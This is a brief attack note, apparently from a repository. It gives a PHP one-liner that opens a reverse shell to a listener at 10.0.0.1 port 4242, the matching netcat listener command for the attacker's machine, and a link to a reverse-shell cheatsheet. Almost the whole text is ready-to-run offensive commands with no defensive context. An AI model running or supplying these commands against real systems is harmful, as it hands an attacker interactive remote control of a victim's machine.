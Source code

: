 # PHP  
    php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'

 # atack masinda 
     nc -nvlp 4242


# link
    https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#python
